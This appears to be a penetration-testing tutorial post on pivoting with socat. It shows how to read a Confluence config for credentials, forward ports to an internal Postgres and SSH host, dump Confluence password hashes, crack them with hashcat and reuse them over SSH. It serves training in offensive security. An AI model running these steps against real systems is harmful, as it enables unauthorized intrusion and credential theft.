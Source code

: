 ```yaml
---
layout: post
title: Port Forwarding Socat
titledate: 09/22/23
tags: ["infosec", "offsec", "tunnel", "socat", "hashcat"]
---
```


#### port forwarding

upon inspecting a machine we have gained access to we discover a confluence config

    $ cat /var/atlassian/application-data/confluence/confluence.cfg.xml

this machine has creds for a machine we do not have access to but our target doe and is running a postgres server

first we need to copy or install socat on our target machine inside our WAN

we will use socat to set up a listening port on the target machine we have access to in our WAN

    target@reachable:/ socat -ddd TCP-LISTEN:2345,fork TCP:10.4.1.1:5432

because we have connected to our target and run ip to identify another machine (10.4.1.1) running postgres (5432) that it can talk to (DMZ) but we cannot, we will execute the command above 

this tells socat that it will listen on the target machine on port 2345 and forward any received connections to port 5432 as a new process

now on our attacking machine we attempt a psql login as postgres to the target

    $ psql -h 192.168.1.1 -p 2345 -U postgres

and it gets forwarded to the DMZ machine running postgres

    postgres=# \l

list available databases

    postgres=# \c confluence

connect to confluence database

    postgres=# \dt

display tables in the database

    postgres=# select * from cwd_user;

display all contents of the cwd_user table

this table contains all of the users and passwords for confluence

we can store the hashes in a txt file to crack with hashcat on our kali machine
    
    $ hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt

12001 is the hashcat mode for confluence

#### leveraging cracked passwords

if we discover a password from the above confluence database, we can try to see if there are any other services running on that server like ssh

if so, we can do the same setup as before but bind our socat to a different port

    target@reachable:/ socat TCP-LISTEN:2222,fork TCP:10.1.1.215:22

here because the target machine we can reach inside our WAN isn't running anything on port 2222 we bind that listening port and forward incoming connections to our DMZ system that is running postgres and ssh on port 22

    $ ssh database_admin@192.168.50.63 -p2222

on our linux machine we can attempt to utilize the credentials we discovered in the confluence table hack to see if we are able to ssh into the DMZ system running ssh, we provide port 2222 because that is what is listening on the confluence machine

### other port forwarding options, rinetd, netcat and FIFO named pipe file, iptables with root privs
